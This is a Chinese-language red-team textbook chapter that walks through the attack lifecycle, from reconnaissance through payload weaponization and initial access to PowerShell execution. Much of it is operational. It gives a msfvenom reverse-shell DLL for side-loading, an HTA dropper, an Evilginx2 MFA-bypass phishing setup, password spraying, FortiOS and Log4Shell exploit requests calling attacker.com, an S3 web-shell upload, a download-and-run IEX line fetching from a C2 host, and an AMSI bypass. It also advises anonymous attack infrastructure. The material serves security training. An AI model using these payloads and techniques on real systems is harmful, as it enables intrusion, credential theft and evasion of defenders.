



## 26.2.1 红队攻击技术体系

红队攻击技术体系是整个攻防对抗演练的核心引擎。与传统渗透测试侧重于"发现漏洞"不同，红队的目标是**模拟真实对手的全攻击链路**，从信息收集到最终目标达成，覆盖MITRE ATT&CK框架中14个战术阶段的关键技术。红队的核心价值不在于"用了什么工具"，而在于"如何在不被发现的前提下达成业务目标"——这要求红队成员同时具备攻防技术深度、战术思维和操作安全意识。

本节将按照攻击生命周期的顺序，逐一拆解红队在各阶段的核心技术、实战方法和工具选型，帮助读者建立起完整的红队攻击知识体系。每一阶段都包含：理论原理（为什么这样做）、技术方法（怎么做）、实操命令（具体执行）、工具选型（用什么做）、常见误区（避免什么）。

### 整体攻击流程概览

一次完整的红队行动通常遵循以下攻击链路，每个阶段都有其核心目标和技术选择：

```mermaid
graph TD
    A["🔴 红队攻击全生命周期"] --> B["Phase 1: 侦察与情报"]
    A --> C["Phase 2: 资源开发与武器化"]
    A --> D["Phase 3: 初始访问与突破"]
    A --> E["Phase 4: 执行与持久化"]
    A --> F["Phase 5: 权限提升与横向移动"]
    A --> G["Phase 6: 目标达成与数据渗出"]
    
    B --> B1["被动侦察<br/>OSINT/搜索引擎<br/>证书透明度"]
    B --> B2["主动侦察<br/>端口扫描/指纹识别<br/>子域名枚举"]
    B --> B3["社会工程侦察<br/>员工信息收集<br/>组织架构映射"]
    
    C --> C1["攻击基础设施<br/>C2/钓鱼/邮件服务器<br/>代理链路"]
    C --> C2["载荷武器化<br/>Office宏/HTA/ISO<br/>DLL侧加载"]
    C --> C3["物理渗透准备<br/>门禁克隆/WiFi劫持<br/>USB投递"]
    
    D --> D1["钓鱼攻击<br/>鱼叉式/水坑/社工电话"]
    D --> D2["暴露面利用<br/>VPN/RDP/云服务"]
    D --> D3["供应链攻击<br/>依赖投毒/更新劫持"]
    D --> D4["物理渗透<br/>尾随进入/设备植入"]
    
    E --> E1["代码执行<br/>PowerShell/LoLBins<br/>内存执行"]
    E --> E2["持久化<br/>WMI/COM/计划任务<br/>打印处理器"]
    E --> E3["防御规避<br/>EDR绕过/AMSI/ETW<br/>日志清除"]
    
    F --> F1["本地提权<br/>Token模拟/UAC绕过<br/>内核漏洞"]
    F --> F2["域提权<br/>Kerberoasting/GPO<br/>ADCS攻击"]
    F --> F3["横向移动<br/>PtH/PtT/WinRM<br/>DCOM"]
    
    G --> G1["数据收集<br/>文件搜索/邮件/数据库"]
    G --> G2["数据渗出<br/>HTTPS/DNS/隐写术"]
    G --> G3["痕迹清理<br/>日志清除/时间戳<br/>工具痕迹"]
    
    B1 --> H["🎯 业务目标达成"]
    D1 --> H
    F3 --> H
    G2 --> H
    
    style A fill:#D32F2F,stroke:#333,color:#fff
    style H fill:#4CAF50,stroke:#333,color:#fff
    style B fill:#FF9800,stroke:#333,color:#fff
    style C fill:#FF9800,stroke:#333,color:#fff
    style D fill:#F44336,stroke:#333,color:#fff
    style E fill:#9C27B0,stroke:#333,color:#fff
    style F fill:#2196F3,stroke:#333,color:#fff
    style G fill:#607D8B,stroke:#333,color:#fff
```



> **关键理念**：OPSEC（操作安全）贯穿整个攻击链路的每一个环节——选择什么工具、在什么时间行动、留下多少痕迹，都需要权衡隐蔽性与效率。一次技术上成功的攻击，如果留下了大量可被蓝队检测的痕迹，就失去了红队演练的意义。据统计，约78%的红队行动失败不是因为无法突破边界，而是因为在后续阶段因OPSEC失误被发现。

### 侦察阶段技巧

侦察（Reconnaissance）是红队行动的基石，对应MITRE ATT&CK的TA0043战术。侦察质量直接决定后续攻击路径的选择和成功率。在真实APT攻击中，侦察阶段可能持续数周甚至数月，红队需要在信息全面性和行动隐蔽性之间取得平衡。

```mermaid
graph LR
    subgraph 被动侦察["🔍 被动侦察（零风险）"]
        A1["搜索引擎Dorking"]
        A2["网络空间搜索"]
        A3["证书透明度"]
        A4["社交媒体情报"]
        A5["代码仓库分析"]
        A6["招聘网站情报"]
    end
    
    subgraph 主动侦察["⚡ 主动侦察（有风险）"]
        B1["端口扫描"]
        B2["服务指纹识别"]
        B3["子域名枚举"]
        B4["Web应用扫描"]
        B5["API端点发现"]
    end
    
    subgraph 社工侦察["🎭 社工侦察"]
        C1["员工信息画像"]
        C2["组织架构映射"]
        C3["技术栈推断"]
        C4["安全策略分析"]
    end
    
    被动侦察 --> 主动侦察 --> 社工侦察
```



#### 被动侦察：不与目标直接交互

被动侦察的核心原则是**通过第三方信息源收集目标情报，避免触发任何安全告警**。这是最安全的侦察方式，即使面对最严格的SOC也难以被检测。

**搜索引擎资产发现（Google Dorking）**

Google Dorking利用Google搜索的高级运算符发现暴露的敏感资产。常用语法：

| 语法 | 用途 | 示例 |
|------|------|------|
| `site:` | 限定搜索域名 | `site:target.com filetype:pdf` |
| `filetype:` | 搜索特定文件类型 | `filetype:xlsx "confidential"` |
| `intitle:` | 搜索标题含关键词的页面 | `intitle:"index of" backup` |
| `inurl:` | 搜索URL含关键词的页面 | `inurl:admin login` |
| `intext:` | 搜索正文含关键词的页面 | `intext:"password" "admin"` |
| `cache:` | 查看Google缓存页面 | `cache:target.com/login` |
| `link:` | 搜索链接到指定URL的页面 | `link:target.com` |
| `-` | 排除特定关键词 | `site:target.com -site:blog.target.com` |
| `OR` | 或逻辑搜索 | `admin OR administrator site:target.com` |

实战组合技巧：

```bash
# 发现泄露的数据库文件
site:target.com filetype:sql "CREATE TABLE" "password"

# 发现管理后台
site:target.com inurl:admin intitle:"Dashboard" -site:blog.target.com

# 搜索GitHub泄露的凭证
site:github.com "target.com" password api_key secret
site:github.com "target.com" "BEGIN RSA PRIVATE KEY"

# 发现敏感目录
site:target.com intitle:"index of" "parent directory"

# 搜索泄露的内部文档
site:target.com filetype:docx | filetype:xlsx | filetype:pptx "internal" OR "confidential"

# 发现Jira/Confluence暴露
site:target.com inurl:wiki | inurl:jira intitle:"Dashboard"
```

> **注意**：大规模Google Dorking可能被Google限制访问频率（CAPTCHA）。建议使用代理轮换（每次搜索间隔随机10-30秒），配合Google自定义搜索API，并模拟正常搜索行为模式。

**网络空间搜索引擎**

Shodan、Censys、FOFA、ZoomEye等网络空间搜索引擎提供了对互联网暴露资产的全局视图：

| 引擎 | 特色能力 | 语法示例 | 适用场景 |
|------|----------|----------|----------|
| Shodan | 最成熟，支持CVE检索、漏洞过滤 | `org:"Target Inc" port:3389` | 通用资产发现 |
| Censys | 证书透明度、子域名、Web资产 | `services.tls.certificates.leaf_names: target.com` | HTTPS资产发现 |
| FOFA | 国内资产覆盖全面 | `domain="target.com" && title="管理"` | 国内目标侦察 |
| ZoomEye | 主机+Web搜索，历史数据对比 | `app:"Apache httpd" hostname:target.com` | 历史变化分析 |
| GreyNoise | 互联网噪声过滤 | `target.com` | 区分扫描vs真实攻击 |
| LeakIX | 公开泄露信息索引 | `host:target.com` | 泄露数据发现 |

```bash
# Shodan CLI示例：发现目标暴露的服务
shodan search "org:Target ssl.cert.subject.CN:target.com" --fields ip_str,port,product

# Censys搜索：查找SSL证书关联的子域名
censys search "parsed.subject.common_name: target.com" --index-type certificates

# FOFA语法：发现管理接口
"domain=target.com" && (title="登录" || title="管理" || title="admin")

# ZoomEye搜索：发现特定漏洞
app:"Apache Struts" country:"US" hostname:"target.com"
```

**OSINT信息收集**

开源情报（OSINT）收集是被动侦察的重要组成部分，涵盖多个维度：

| 情报维度 | 信息源 | 获取内容 | 工具 |
|----------|--------|----------|------|
| 域名与DNS | WHOIS、DNS记录 | 注册人、邮件、MX/NS/TXT记录 | dig、host、whois |
| 证书透明度 | crt.sh、CertSpotter | 子域名、内部系统名称 | curl + jq |
| 社交媒体 | LinkedIn、Twitter/X | 员工信息、技术栈、组织架构 | theHarvester、LinkedIn2Username |
| 代码仓库 | GitHub、GitLab | 硬编码凭证、API Key、架构 | TruffleHog、GitLeaks、gitness |
| 招聘信息 | Boss直聘、拉勾、LinkedIn | 技术栈、安全产品、团队规模 | 手动分析 |
| 历史数据 | Wayback Machine、WebArchive | 已删除的页面和路径 | waybackurls、gau |
| 暗网情报 | 暗网论坛、Pastebin | 泄露凭证、内部数据 | DarkSearch API |
| 邮件情报 | Hunter.io、emailrep.io | 邮件格式、邮箱验证 | holehe、emailfinder |

```bash
# DNS全记录查询
dig target.com ANY +noall +answer
dig target.com TXT  # 查看SPF/DKIM/DMARC配置
host -t MX target.com  # 邮件服务器

# crt.sh查询证书透明度（发现子域名）
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u

# GitHub敏感信息搜索
# 使用GitHub搜索语法
"target.com" password
"target.com" api_key
"target.com" "BEGIN RSA PRIVATE KEY"
org:target-company filename:.env

# theHarvester自动化信息收集
theHarvester -d target.com -b google,bing,linkedin,certspotter -l 200

# Wayback Machine历史URL发现
waybackurls target.com | grep -iE '\.env|\.bak|\.sql|admin|password|config'
gau target.com --threads 5 | sort -u
```

> **经验法则**：一个成熟的企业域名下通常有50-200个活跃子域名，而安全团队实际管理的可能不到一半。那些"被遗忘"的子域名——旧测试环境、遗留系统、合作伙伴子域——往往是最佳攻击入口。在真实红队行动中，约35%的初始访问路径来自这些被遗忘的资产。

#### 主动侦察：与目标有直接交互

主动侦察需要与目标系统直接交互，因此需要特别注意OPSEC，避免暴露红队的基础设施和真实意图。

**端口扫描与服务识别**

| 工具 | 特点 | 扫描速度 | 适用场景 | OPSEC风险 |
|------|------|----------|----------|-----------|
| Nmap | 功能最全，支持NSE脚本引擎 | 中等 | 精细扫描、服务版本检测 | 中等（可配置慢速） |
| Masscan | 极速（百万端口/秒），异步TCP | 极快 | 大范围资产快速发现 | 高（易触发IDS） |
| RustScan | Rust编写，集成Nmap | 快速 | 快速端口发现+精细识别 | 中等 |
| Unicornscan | 异步扫描，低噪音 | 中等 | 需要隐蔽的场景 | 低 |
| Zmap | 互联网级单包扫描 | 极快 | 互联网范围普查 | 高 |

```bash
# 两阶段扫描策略：先快后精
# 阶段1：Masscan快速发现存活主机和端口（Top 1000端口）
masscan 10.0.0.0/8 -p21,22,23,25,53,80,110,135,139,143,443,445,993,995,1433,1521,3306,3389,5432,5900,8080,8443,9090 --rate=1000 -oL alive_hosts.txt

# 阶段2：Nmap精细服务识别（仅对存活主机）
nmap -sV -sC -O -T2 --top-ports 100 -iL alive_hosts.txt -oA nmap_scan

# OPSEC要求高的场景：Nmap慢速扫描+代理
nmap -sS -sV -T1 --max-rate 10 --source-port 53 -Pn target.com

# UDP扫描（常被忽略，但SNMP/NTP等UDP服务是高价值目标）
nmap -sU --top-ports 50 -T2 target.com
```

> **扫描时间窗口**：真实红队行动中，主动扫描通常安排在目标组织的工作时间之外（深夜或周末），且频率控制在每天1-2次。Masscan全端口扫描在2分钟内可触发数万条日志，导致SOC团队在30分钟内确认入侵——这是最常见的OPSEC失败案例之一。

**Web应用侦察**

Web应用是现代企业最核心的攻击面。侦察需要覆盖指纹识别、目录枚举、API发现三个维度：

```bash
# 指纹识别：识别Web服务器、框架、CMS
# httpx - 快速HTTP探测+指纹识别
httpx -l targets.txt -title -tech-detect -status-code -follow-redirects -o httpx_results.txt

# WhatWeb - 详细Web指纹
whatweb --color=never -a 3 target.com

# Wappalyzer CLI版本
wappalyzer target.com

# 目录枚举：发现隐藏路径和敏感文件
# ffuf - 高速Web fuzzing
ffuf -u https://target.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -mc 200,301,302,403 -o ffuf_dirs.json

# dirsearch - 自动化目录枚举
dirsearch -u target.com -w /usr/share/seclists/Discovery/Web-Content/common.txt -e php,asp,aspx,jsp -t 30

# gobuster - 快速目录和DNS爆破
gobuster dir -u https://target.com -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,js,txt -t 50

# API端点发现
# 分析JavaScript文件中的API路径
cat js_files.txt | grep -oE '"/api/[^"]+"|"/v[0-9]+/[^"]+"' | sort -u

# 使用katana爬取JS端点
katana -u https://target.com -d 3 -jc -ef png,jpg,gif,css,woff -o urls.txt
cat urls.txt | grep -i api | sort -u
```

**子域名枚举**

子域名枚举是发现隐藏资产的关键步骤，需要多种方法组合使用：

| 方法 | 工具 | 发现率 | 速度 | OPSEC风险 |
|------|------|--------|------|-----------|
| 字典爆破 | subfinder、amass | 中 | 快 | 中（DNS查询频率） |
| 证书透明度 | crt.sh、CertSpotter | 高 | 快 | 无 |
| DNS区域传送 | dig axfr | 低 | 快 | 无（但成功率极低） |
| 历史DNS记录 | SecurityTrails、DNSDumpster | 高 | 中 | 无 |
| 搜索引擎 | Google Dorking | 低 | 慢 | 无 |
| 递归枚举 | amass、subfinder | 高 | 慢 | 中 |
| 泄露数据 | Wayback Machine、VirusTotal | 中 | 快 | 无 |

```bash
# 组合子域名枚举流水线
# Step 1: 多源收集
subfinder -d target.com -all -o subfinder_results.txt
amass enum -passive -d target.com -o amass_passive.txt
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u > crtsh_results.txt

# Step 2: 合并去重
cat subfinder_results.txt amass_passive.txt crtsh_results.txt | sort -u > all_subdomains.txt

# Step 3: DNS验证+HTTP探测
# 解析验证哪些子域名存活
dnsx -l all_subdomains.txt -silent -a -resp-only > alive_subdomains.txt

# HTTP探测
httpx -l alive_subdomains.txt -title -status-code -tech-detect -o subdomain_httpx.txt
```

#### 社会工程侦察

社会工程侦察为后续的钓鱼攻击和物理渗透提供情报基础，是红队行动中最具创造性的环节：

```bash
# 员工信息收集
# LinkedIn信息收集（手动+自动化）
# - 搜索目标公司员工，记录：姓名、职位、部门、技术栈关键词
# - 分析员工的技术博客、GitHub贡献、Stack Overflow活动

# 邮箱格式推断
# 大多数企业使用以下格式之一：
# firstname.lastname@target.com
# firstnamelastname@target.com
# f.lastname@target.com
# 验证：通过hunter.io或GitHub搜索确认

# 使用holehe验证邮箱是否存在
holehe email@target.com --threads 5

# 组织架构映射
# - 通过LinkedIn分析汇报关系
# - 通过招聘网站了解部门结构
# - 通过内部文档元数据发现组织信息

# 技术栈推断
# - 招聘JD中的技术要求 = 实际使用的技术
# - Stack Overflow问题标签 = 具体技术栈
# - GitHub组织仓库 = 内部工具和框架
```

### 资源开发与武器化

红队在侦察完成后需要建立攻击基础设施和准备攻击载荷。这一阶段对应ATT&CK的TA0042战术，是连接侦察与攻击的桥梁。

```mermaid
graph LR
    subgraph 基础设施["🏗️ 攻击基础设施"]
        A1["C2服务器"]
        A2["钓鱼服务器"]
        A3["邮件服务器"]
        A4["代理/跳板"]
        A5["DNS服务器"]
        A6["CDN前置"]
    end
    
    subgraph 载荷["💣 武器化载荷"]
        B1["Office宏"]
        B2["HTA/CHM"]
        B3["ISO/ZIP"]
        B4["LNK快捷方式"]
        B5["DLL侧加载"]
        B6["OneNote文件"]
    end
    
    subgraph OPSEC["🛡️ OPSEC隔离"]
        C1["匿名注册域名"]
        C2["预付信用卡"]
        C3["Tor/代理管理"]
        C4["独立基础设施"]
    end
    
    基础设施 --> 载荷
    OPSEC --> 基础设施
```



**攻击基础设施搭建**

| 组件 | 作用 | 选型建议 | OPSEC要点 |
|------|------|----------|-----------|
| C2服务器 | 远程命令控制 | 部署在AWS/Azure/GCP，使用CDN前置 | 每个行动独立基础设施，与个人身份完全隔离 |
| 钓鱼服务器 | 承载钓鱼页面 | 使用临时域名，模拟目标组织风格 | 域名注册使用PrivacyGuard，TTL设置较短 |
| 邮件服务器 | 发送钓鱼邮件 | 自建或使用可信邮件服务，配置SPF/DKIM | 预热域名（提前2-4周建立信誉） |
| 代理/跳板 | 隐藏攻击源IP | 多层代理链路（VPN→SOCKS→目标） | 每层代理使用不同提供商和IP段 |
| DNS服务器 | 控制DNS解析 | 使用自有域名和DNS服务 | 避免使用知名DNS提供商（易被关联） |
| CDN前置 | 隐藏真实服务器 | Cloudflare、Fastly等 | 利用域前置（Domain Fronting）混淆流量 |

> **OPSEC铁律**：攻击基础设施必须与红队成员的真实身份完全隔离——使用匿名注册域名、预付信用卡购买服务器、通过Tor或代理链路管理基础设施。每个攻击场景使用独立的基础设施，避免交叉污染。一旦某个基础设施被发现，立即切换，不影响其他阶段。

**载荷武器化**

根据目标环境选择合适的载荷类型，需要在"隐蔽性"和"可靠性"之间取平衡：

| 载荷类型 | 绕过能力 | 执行方式 | 检测风险 | 适用场景 |
|----------|----------|----------|----------|----------|
| Office宏 | 可绕过部分AV | VBA→PowerShell | 高（默认已阻止） | 低防护环境 |
| HTA/CHM | 绕过邮件过滤 | mshta.exe执行 | 中 | 邮件投递 |
| ISO/ZIP | 绕过MotW标记 | 自动挂载+LNK | 中低 | 高防护环境 |
| LNK快捷方式 | 伪装为正常文档 | 指向PowerShell | 中 | 多场景通用 |
| DLL侧加载 | 利用合法进程加载 | DLL搜索顺序劫持 | 低 | 高隐蔽性需求 |
| OneNote文件 | 绕过宏默认阻止 | 嵌入脚本/对象 | 中 | 2023-2024主力载荷 |
| VHD/WSF | 绕过MotW | 虚拟磁盘挂载 | 低 | 高防护环境 |
| SVG/HTML | 跨平台，邮件内嵌 | 浏览器执行JS | 低 | Web邮件环境 |

```bash
# DLL侧加载载荷制作示例
# 1. 找到目标程序的合法DLL依赖
# 使用Process Monitor筛选目标程序加载的DLL

# 2. 制作恶意DLL（替换合法DLL）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=c2-ip LPORT=443 -f dll -o legitimate_name.dll

# 3. 将恶意DLL和合法程序放置在同一目录
# 目标双击合法程序时，优先加载同目录下的同名DLL

# ISO载荷制作
# 1. 创建恶意LNK文件
# 2. 将LNK+恶意脚本/DLL打包为ISO
mkisofs -o payload.iso -R -J payload_dir/

# HTA载荷示例
cat > payload.hta << 'EOF'
<html>
<head>
<script language="VBScript">
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell -ep bypass -enc <base64_payload>", 0, false
</script>
</head>
<body>
<script language="VBScript">window.close()</script>
</body>
</html>
EOF
```

> **2024-2026年趋势**：由于Microsoft逐步默认阻止Office宏，红队越来越多地转向以下载荷：OneNote文件（.one）嵌入脚本、ISO/ZIP打包的脚本文件、VHD虚拟磁盘、Windows快捷方式（.lnk）指向PowerShell、SVG/HTML文件内嵌JavaScript。载荷选型必须紧跟目标环境的防御策略变化——在部署了最新Defender的环境中，传统的Office宏几乎不可能绕过检测。

### 初始访问技术

初始访问（Initial Access）是ATT&CK的TA0001战术，红队突破目标边界、获取第一立足点的阶段。这是整个攻击链中最关键也最具挑战性的环节——约60-70%的APT攻击以钓鱼作为初始入口，而一旦进入内部网络，后续的横向移动和权限提升通常有更多选择空间。

#### 钓鱼攻击

钓鱼攻击仍然是最高效的初始访问向量。根据Verizon DBIR报告，超过80%的突破性攻击涉及社会工程因素。

**鱼叉式钓鱼邮件（Spear Phishing）**

与群发钓鱼不同，鱼叉式钓鱼针对特定个人或部门进行定制化攻击：



**鱼叉式钓鱼实操步骤**：

1. **情报收集**：利用OSINT了解目标的职责、近期项目、邮件签名风格、常用软件
2. **诱饵设计**：基于目标角色设计有说服力的诱饵——财务部门"发票"、HR"简历"、技术部门"安全通告"、高管"董事会材料"
3. **域名仿冒**：注册与目标组织相似的域名（同字母异形域名pаypal.com、额外字符targeet.com、字符替换target-corp.com）
4. **邮件伪造**：利用邮件头漏洞（SMTP未校验、SPF/DKIM未配置）伪造发件人地址
5. **载荷选择**：根据目标安全防护水平选择载荷——高防护环境用文档宏+混淆、中等环境用ISO/ZIP打包、低防护环境可直接用EXE

实战邮件构造示例：

```text
发件人: security-alert@target-corp.com（仿冒域名）
主题: 【紧急】VPN安全更新 - 请立即执行
附件: VPN_Update_v2.1.iso（内含恶意LNK+DLL）
正文: 基于目标组织近期VPN升级的真实事件构造
签名: 仿冒目标组织IT部门邮件签名风格
```

**水坑攻击（Watering Hole）**

水坑攻击针对目标组织成员经常访问的网站进行篡改：

1. **目标选择**：行业论坛、合作伙伴网站、行业新闻门户
2. **入侵方式**：XSS、SQL注入、CMS漏洞利用
3. **载荷投放**：恶意JavaScript，通过IP/地理位置筛选仅对目标群体触发
4. **漏洞利用**：浏览器漏洞（Chrome/Firefox 0day）或社会工程诱导下载

**凭证钓鱼与MFA绕过**

现代企业普遍部署了多因素认证（MFA），红队需要掌握绕过技术：

| 绕过技术 | 原理 | 工具 | 成功率 | 检测难度 |
|----------|------|------|--------|----------|
| 实时代理钓鱼 | 中间人代理实时转发认证，捕获Session Cookie | Evilginx2、Modlishka | 高 | 中高 |
| MFA疲劳攻击 | 反复发送MFA推送通知，利用用户疏忽点击"允许" | 自定义脚本 | 中 | 低（容易被发现） |
| Session劫持 | XSS或浏览器扩展获取已认证的Session Token | 自定义XSS Payload | 中 | 高 |
| SSO令牌窃取 | 针对使用SSO的企业，窃取令牌实现无密码访问 | Token窃取脚本 | 中高 | 高 |
| SIM交换攻击 | 通过社会工程或腐败运营商获取SIM卡控制权 | 社会工程 | 低 | 低 |
| OAuth令牌钓鱼 | 伪造OAuth授权页面获取第三方应用权限 | Evilginx2 | 中高 | 中 |

```text
# Evilginx2实时代理钓鱼配置示例
# 1. 启动Evilginx2
evilginx2

# 2. 配置钓鱼域名和C2
config domain phishing-domain.com
config ipv4 your-ip

# 3. 创建钓鱼站点（以Office 365为例）
phishlets hostname o365 login.phishing-domain.com
phishlets enable o365

# 4. 创建诱饵链接
lures create o365
lures get-url 0
# 返回的URL发送给目标，用户登录时Session Cookie被实时捕获
```

#### 供应链攻击

供应链攻击通过入侵软件供应链环节，在合法软件更新中植入恶意代码，是最难检测的初始访问方式之一。近年来供应链攻击频率呈指数增长：

| 案例 | 时间 | 攻击者 | 影响 | 攻击方式 |
|------|------|--------|------|----------|
| SolarWinds | 2020 | APT29 | ~18,000组织 | 构建过程注入恶意代码 |
| Codecov | 2021 | 未知 | CI/CD凭证泄露 | 篡改Bash上传脚本 |
| Kaseya | 2021 | REvil | ~1,500企业 | MSP管理平台漏洞 |
| 3CX | 2023 | Lazarus | 数十万用户 | 桌面客户端后门 |
| XZ Utils | 2024 | 未知 | Linux生态系统 | 长期潜伏维护者投毒 |
| npm/PyPI | 持续 | 多个组织 | 开发者环境 | 恶意依赖包 |

**红队模拟方法**：

1. **依赖库投毒**：在目标使用的包管理器（npm/PyPI/Maven）中注册名称相似的恶意包（typosquatting），诱导开发者安装
2. **构建系统入侵**：模拟攻击CI/CD管道，在构建过程中注入恶意代码（类似SolarWinds手法）
3. **更新渠道劫持**：模拟软件更新服务器被入侵的场景，推送含后门的更新包
4. **开源维护者渗透**：长期贡献代码获取维护者权限，在某个版本中植入后门（类似XZ Utils手法）

#### 暴露面利用

利用目标暴露在互联网上的薄弱环节直接获取访问权限：

**VPN/远程桌面攻击**：

```bash
# 密码喷射攻击（Password Spraying）
# 与暴力破解不同，密码喷射使用少量常见密码对大量用户尝试
# 这样可以避免单个账户被锁定

# 使用CrackMapExec进行SMB密码喷射
crackmapexec smb target-subnet.txt -u users.txt -p 'Company2024!' --continue-on-success

# RDP密码喷射
hydra -l admin -P passwords.txt rdp://target-ip

# Fortinet VPN攻击
# CVE-2018-13379 - 未授权路径遍历读取凭证
curl -k "https://vpn.target.com/login?/remote/forticlient_saml_metadata/../../../../../../../../../etc/passwd"

# Pulse Secure VPN漏洞利用
# CVE-2019-11510 - 未授权任意文件读取
curl -k "https://vpn.target.com/dana-na/../dana/html5acc/guacamole/"
```

**N-day漏洞利用**：

```bash
# Log4Shell (CVE-2021-44228) - Apache Log4j RCE
# 检测目标是否存在漏洞
curl -H "User-Agent: \${jndi:ldap://attacker.com/exploit}" https://target.com/api/search?q=test

# ProxyLogon/ProxyShell - Microsoft Exchange漏洞
# CVE-2021-26855 - SSRF获取Exchange用户邮箱
# 使用proxylogon-scanner.py扫描
python3 proxylogon-scanner.py target.com

# CVE-2021-34473 + CVE-2021-34523 - ProxyShell RCE
# 通过SSRF获取邮箱→利用任意文件写入WebShell→RCE

# 利用Nuclei进行批量漏洞检测
nuclei -l targets.txt -t cves/ -severity critical,high -o nuclei_results.txt
```

**云服务配置错误利用**：

```bash
# AWS S3 Bucket枚举与利用
# 使用cloud_enum发现公开桶
cloud_enum -k target

# 使用S3Scanner扫描
s3scanner scan -f company_names.txt

# 如果发现公开写入权限
aws s3 cp shell.aspx s3://target-bucket/ --endpoint-url https://s3.amazonaws.com

# Azure Blob Storage未授权访问
# 使用BlobSeeker或直接API调用
curl "https://target.blob.core.windows.net/?comp=list"

# Kubernetes Dashboard暴露
curl -k https://k8s-dashboard.target.com

# GitLab/Gitea未授权访问
curl https://gitlab.target.com/api/v4/projects  # GitLab API
curl https://gitea.target.com/api/v1/repos/search  # Gitea API
```

#### 物理渗透与社会工程

物理渗透是红队行动中常被忽视但极其有效的攻击向量。在高安全环境中，技术攻击可能被严密防御，而物理渗透往往被低估：

| 攻击方式 | 难度 | 成功率 | 检测风险 | 适用场景 |
|----------|------|--------|----------|----------|
| 尾随进入（Tailgating） | 低 | 高 | 低 | 办公大楼 |
| 门禁克隆（Badge Cloning） | 中 | 高 | 中 | 门禁系统 |
| USB投递（USB Drop） | 低 | 中 | 低 | 员工好奇心利用 |
| WiFi蜜罐（Rogue AP） | 中 | 高 | 低 | 办公区域 |
| 垃圾桶翻找（Dumpster Diving） | 低 | 中 | 无 | 信息收集 |
| 假冒身份（Impersonation） | 中 | 中高 | 中 | 前台/IT部门 |
| 钓鱼电话（Vishing） | 低 | 中 | 低 | 凭证获取/内部信息 |

```bash
# WiFi攻击示例
# 1. 创建与目标相同的WiFi蜜罐
hostapd wlan0.conf  # 创建与目标相同SSID的AP

# 2. 使用BetterCAP进行中间人攻击
bettercap -iface wlan0
# net.probe on
# net.sniff on
# dns.spoof on

# 3. 使用Fluxion进行WiFi钓鱼（伪造Portal页面）
fluxion

# USB投递策略
# 1. 格式化USB并植入多个载荷（不同杀毒软件绕过）
# 2. 使用诱导文件名（如"2024薪资调整.xlsx"、"全员体检通知.pdf"）
# 3. 投放在目标组织停车场、大厅、会议室
# 4. 使用Rubber Ducky/Bash Bunny制作自动化攻击USB
```

> **物理渗透规则**：物理渗透必须在法律允许的范围内进行，且需提前获得目标组织管理层的书面授权。在演练中，物理渗透通常配合视频监控记录全程，作为演练报告的重要素材。

### 执行与持久化

突破边界后，红队需要在目标系统上执行代码并建立持久化访问机制。这一阶段对应ATT&CK的TA0002（Execution）和TA0003（Persistence）战术。

#### 代码执行技术

**PowerShell执行**

PowerShell是红队最常用的代码执行工具，但也最容易被检测。掌握各种执行方式和绕过技术至关重要：

```powershell
# === PowerShell执行方式 ===

# 1. 基础执行（已被广泛检测，仅用于低防护环境）
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')"

# 2. 编码执行（绕过命令行参数中的特殊字符）
powershell -ep bypass -enc <base64_encoded_command>

# 3. 文件less执行（不落盘）
powershell -ep bypass -nop -c "$c = Get-Content -Raw 'payload.ps1'; IEX $c"

# 4. 绕过AMSI（Anti-Malware Scan Interface）
# 方法1：内存补丁AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# 方法2：利用已知AMSI bypass（定期更新）
# 参考：https://amsi.fail/ 获取最新的bypass payload

